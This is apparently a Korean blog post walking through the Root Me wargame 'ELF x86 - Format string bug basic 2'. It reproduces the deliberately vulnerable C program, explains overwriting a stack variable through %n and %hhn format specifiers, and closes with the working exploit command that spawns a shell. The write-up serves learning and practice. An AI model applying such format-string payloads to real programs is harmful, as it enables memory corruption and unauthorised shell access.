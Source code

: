 ```yaml
---
layout: post
title:  "Root Me: ELF x86 - Format string bug basic 2"
date:   2018-01-25 00:00:04
author: nyan101
categories: 자습
tags:	app/system
cover:  
---
```




주어진 코드는 다음과 같다.

```c
int main( int argc, char ** argv )
{
	int var;
	int check  = 0x04030201;
	char fmt[128];
 
	if (argc <2)
		exit(0);
 
	memset( fmt, 0, sizeof(fmt) );
 
	printf( "check at 0x%x\n", &check );
	printf( "argv[1] = [%s]\n", argv[1] );
 
	snprintf( fmt, sizeof(fmt), argv[1] );
 
	if ((check != 0x04030201) && (check != 0xdeadbeef))	
		printf ("\nYou are on the right way !\n");
 
	printf( "fmt=[%s]\n", fmt );
	printf( "check=0x%x\n", check );
 
	if (check==0xdeadbeef)
   	{
		printf("Yeah dude ! You win !\n");
     		system("/bin/dash");
   	}
}
```

`snprintf` 함수를 이용해 check 변수의 값을 조작해야 한다. printf에서와 마찬가지로 snprintf에서도 %x나 %p를 이용해 읽어올 수 있으며, `%(숫자)$p%`를 이용해 원하는 k번째 인자(혹은 해당 위치의 메모리)를 바로 읽어올 수 있다. 입력한 값이 몇 번째 위치에 들어가는지 확인하고 %n(포인터로 주어진 인자에 현재까지 쓰인 바이트 수를 기록)를 이용해 해당 주소의 값을 수정할 수 있다.

![](/assets/images/2018/01/rootme-04.png)

위 그림에서와 같이 입력값이 9번째 인자 위치부터 들어간다는 사실을 확인하면 %n을 이용해 값을 수정할 수 있다. 그런데 check가 요구하는 값(0xdeadbeef)의 크기가 커 한번에 쓰기엔 한계가 있었고, %hn(2바이트)이나 %hhn(1바이트)를 통해 하나씩 덮어쓰는 작업이 필요했다. 이 과정에서 ~~손가락이 6개 부족해서~~ 잠시 막혔다.

![](/assets/images/2018/01/rootme-04-decimal.png)



...결과적으로 아래와 같은 커맨드를 통해 조건을 통과할 수 있었다.

```
./ch14 "$(python -c "print '\x0b\xfb\xff\xbf\x0a\xfb\xff\xbf\x09\xfb\xff\xbf\x08\xfb\xff\xbf'+'%206d%9\$hhn%207d%10\$hhn%17d%11\$hhn%49d%12\$hhn'")"
```

